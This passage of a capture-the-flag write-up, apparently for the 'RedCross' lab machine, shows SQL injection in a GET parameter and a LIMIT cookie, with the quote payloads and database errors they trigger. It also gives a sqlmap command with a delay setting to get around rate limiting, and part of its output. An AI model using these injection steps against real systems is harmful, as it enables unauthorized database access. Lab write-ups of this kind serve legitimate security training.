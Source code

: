 Based on the messages we see, we find the following users created in the database/system:
- admin
- penelope
- charles
- guest

Two parameters are vulnerable to SQL injections:

1. `o` parameter in `GET /?o=2&page=app`

Example:

```
GET /?o=2'&page=app HTTP/1.1

DEBUG INFO: You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '1' or dest like '2'') LIMIT 10' at line 1
```

2. `LIMIT` cookie in `GET /?o=2&page=app`

Example:

```
Cookie: domain=admin; lang=EN_US; PHPSESSID=8e2u3570ceoa9vk2vofvgnibv3; LIMIT=10'

DEBUG INFO: You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''' at line 1
```

Our best bet is to try to exploit the `o` parameter as exploiting the `LIMIT` cookie will be more difficult since we can't do `UNION SELECT` after a `LIMIT` statement. We might be able to do something with `PROCEDURE ANALYSE` but since the box is rated medium/hard, I didn't think this was going to be it.

The first thing we notice with sqlmap is it kills the webserver pretty quickly, so I assumed there is some kind of WAF rate-limiting the connections to the server. If we wait a bit, we are able to access the server again.

To use sqlmap, we will need to change the `delay` parameter to 1 second. It takes a long time but sqlmap eventually find the injection point:

```
root@ragingunicorn:~# sqlmap -r login.req --risk=3 -p o --dbms=mysql --random-agent --delay=1 --technique=UE
...
[13:00:14] [INFO] parsing HTTP request from 'login.req'
[13:00:14] [INFO] fetched random HTTP User-Agent header value 'Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; de) Opera 8.02' from file '/usr/share/sqlmap/txt/user-agents.txt'
[13:00:14] [INFO] testing connection to the target URL
sqlmap got a 301 redirect to 'https://intra.redcross.htb/?o=2&page=app'. Do you want to follow? [Y/n] y
[13:00:17] [INFO] heuristic (basic) test shows that GET parameter 'o' might be injectable (possible DBMS: 'MySQL')
[13:00:18] [INFO] heuristic (XSS) test shows that GET parameter 'o' might be vulnerable to cross-site scripting (XSS) attacks
[13:00:18] [INFO] testing for SQL injection on GET parameter 'o'
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) value? [Y/n] 
[13:00:19] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
[13:00:20] [WARNING] reflective value(s) found and filtering out
[13:01:17] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (BIGINT UNSIGNED)'
[13:02:14] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXP)'
[13:03:11] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (EXP)'
[13:04:08] [INFO] testing 'MySQL >= 5.7.8 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (JSON_KEYS)'
[13:05:04] [INFO] testing 'MySQL >= 5.7.8 OR error-based - WHERE or HAVING clause (JSON_KEYS)'
```